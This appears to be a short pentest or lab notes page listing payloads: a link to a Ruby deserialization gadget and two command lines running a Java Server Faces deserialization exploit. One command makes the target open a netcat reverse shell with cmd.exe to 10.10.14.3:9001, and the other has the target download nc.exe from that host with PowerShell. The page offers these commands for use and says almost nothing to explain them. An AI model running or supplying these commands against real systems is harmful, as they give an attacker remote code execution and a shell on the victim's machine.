 # Payloads
Resources

rubydeserialization.rb - for *Ruby 3.X*
+ Source : https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html


### Java Server Faces object deserialization exploit
python3 exploit.py http://10.10.10.130:8080/userSubscribe.faces "\\programdata\\nc.exe -e cmd.exe 10.10.14.3 9001" SnNGOTg3Ni0=
python3 exploit.py http://10.10.10.130:8080/userSubscribe.faces "powershell -command \\\"Invoke-WebRequest -Uri ht
tp://10.10.14.3/nc.exe -outfile \\programdata\\nc.exe\\\"" SnNGOTg3Ni0=

+ Resources
https://github.com/int0x33/nc.exe/
